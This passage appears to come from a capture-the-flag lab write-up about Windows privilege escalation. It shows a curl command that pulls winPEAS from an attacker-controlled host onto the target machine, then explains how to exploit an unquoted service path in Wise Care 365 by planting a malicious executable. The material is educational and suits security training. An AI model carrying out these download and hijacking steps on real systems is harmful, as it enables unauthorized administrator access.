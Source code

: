 and

```
    Windows 10 includes curl.exe: (...)
```
[source](https://techcommunity.microsoft.com/blog/containers/tar-and-curl-come-to-windows/382409)



```
c:\Users\butler\Downloads>curl http://10.0.2.5/winPEASx64_ofs.exe -o winpeas.exe
curl http://10.0.2.5/winPEASx64_ofs.exe -o winpeas.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 9776k  100 9776k    0     0   167M      0 --:--:-- --:--:-- --:--:--  170M

c:\Users\butler\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Users\butler\Downloads

06/29/2025  12:30 PM    <DIR>          .
06/29/2025  12:30 PM    <DIR>          ..
06/29/2025  12:30 PM        10,010,624 winpeas.exe
08/14/2021  05:23 AM        16,013,912 WiseCare365_5.6.7.568.exe
               2 File(s)     26,024,536 bytes
               2 Dir(s)   9,181,114,368 bytes free
```

We can run `winpeas.exe` with limited privileges (to begin with, see one of the
previous machines -- better double-check with elevated privileges later) to
enumerate all ways to get to a root shell.

**FINDING:**

```
(...)

    WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected
    YOU CAN MODIFY THIS SERVICE: AllAccess
    File Permissions: Administrators [Allow: AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\Wise\Wise Care 365 (Administrators [Allow: AllAccess])                                                                                                              
    In order to optimize system performance,Wise Care 365 will calculate your system startup time.
   =================================================================================================                

(...)
```

The `WiseBootAssistant` is run with administrator privileges. If a path with
spaces is used without quotes, Windows will try to find the executable starting
at the shortest possible version up until the first space, then extend the path
by the next word, etc. If we have write access to a folder with a space in the
folder name that is located above the executable, we can exploit this and place
our own (malicious) executable there to have it executed instead of the original
file. See [Windows Unquoted Service Path
Enumeration](https://techcommunity.microsoft.com/discussions/windows-security/windows-unquoted-service-path-enumeration---is-this-still-a-case-in-modern-windo/3298358).
